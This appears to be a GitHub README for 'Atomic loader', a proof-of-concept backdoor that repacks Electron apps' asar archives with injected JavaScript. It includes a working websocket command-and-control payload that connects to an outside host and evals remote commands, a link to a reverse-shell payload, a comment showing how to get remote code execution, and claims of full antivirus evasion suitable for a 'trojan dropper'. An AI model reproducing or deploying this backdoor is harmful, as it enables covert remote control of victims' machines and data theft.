 # Atomic loader

### What is this Atomic loader

This is a proof of concept universal electron **FUD** application backdoor. I named it atomic loader because electron was called "atomic shell" before it was renamed apparently.

![](loader.png)

### How does it work
Every single electron application uses a format called asar, you might have seen this:
[https://github.com/electron/asar]()

- Unpacking asar files is simple and packing it back with malicious javascript added will force the code to load with the application and therefore backdooring it.
- I can't say it "injects" but it's some form of persistance inside the application

This loader was based on vxunderground's research paper: "Node modules infector" but not to be confused since it works completely different yet the idea is still the same.
[https://github.com/vxunderground/VXUG-Papers/tree/main/Node%20Module%20Infector]()


### Why does it not fully work?
There are 2 main reasons
-> 1. I don't want to release this as fully working code out into the wild before it gets fully patched
-> 2. I've tried pretty hard to get it to work, It works most of the time, usually if you have one electron application but it seems to break for some reason, I just can't figure out why. Maybe you can help me? Feel free to commit.

**edit this line in the index.js before trying it out**

```js
const shellcode = "";
```

Use something like this: 

[https://github.com/vxunderground/VXUG-Papers/blob/main/Node%20Module%20Infector/Cross-platform%20demo/payloads/windows/discordReverseShell.js]()

Or craft your own shellcode, that should connect to a websocket server and execute commands from it. In this example we will be using [piesocket](https://www.piesocket.com/):

```js
;const WebSocket=require('ws');var exec=require('child_process').execSync;var piesocket=new WebSocket('wss://us-nyc-1.piesocket.com/v3/1?api_key=<INSERT_KEY>&notify_self');piesocket.onopen=function(connect){piesocket.send('loaded');};piesocket.onmessage=function(message){if(message.data.startsWith('!')){try{eval(message.data.slice(1));}catch(e){}}};piesocket.onerror=function(error){location.reload();};piesocket.onclose=function(error){location.reload();};
// send !piesocket.send(exec('whoami')) into websocket for rce
```

### Detections on virustotal?
![](detections.png)
I'm proud to say this is surprisingly [100% FUD](https://www.virustotal.com/gui/file/4903e478fede3628566f20e2fb1caccbf22f88f9d02822748428d6ad23a88d64?nocache=1). Any application you compile with [node pkg](https://medium.com/@cpu_easy/how-i-got-zero-detections-on-virus-total-900f182a0d7b) will stay zero, Hence you could utilize this as a "trojan dropper"
Unless you want to code Mimikatz in nodejs ;)
